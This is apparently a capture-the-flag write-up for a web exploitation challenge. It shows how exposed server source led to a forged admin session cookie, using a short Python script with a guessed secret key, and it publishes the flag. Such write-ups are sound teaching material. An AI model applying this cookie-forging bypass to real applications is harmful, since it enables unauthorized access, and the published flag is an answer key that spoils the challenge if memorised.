 # Official Business
Points: 125
## Category
Web Exploitation
## Problem Statement
```
Are you here on official business? Prove it.
Connect here:
http://jh2i.com:50006
```
## Solution

* [http://jh2i.com:50006/robots.txt](robots1.txt) had a python file. Apparently dubbed as source code of this server.
* I had login authentication function with one single login hardcoded. Username `'hacker'` and sha512 hash (`b'hackshackshackshackshackshackshackshackshackshackshackshackshack`) of password.
* I searched for sha512 decoders online in hope of finding password but all failed.
* Source code also had function of cookie authentication.
* I looked at it in the hope of generating a valid cookie using username and password hash.
* A valid cookie had 3 parameters username, password in plain text and app.secret_key which was not available.
* I went on to generate a cookie using known parameters and randomly assuming unknown parameters.

```
secret_key = bytes("a","ascii")
def do_login(user, password, admin):

    cookie = {"user": user, "password": password, "admin": admin}
    cookie["digest"] = hashlib.sha512(
        secret_key + bytes(json.dumps(cookie, sort_keys=True), "ascii")
    ).hexdigest()
    print("OK.")
    print(binascii.hexlify(json.dumps(cookie).encode("utf8")))
do_login('hacker','hellllllo',True)
```

* Added this generated cokie in the browser and refreshed the page. To my surprise I found the flag.
* Even the flag was `"flag{did_this_even_pass_code_review}"`.

## Flag
```
flag{did_this_even_pass_code_review}
```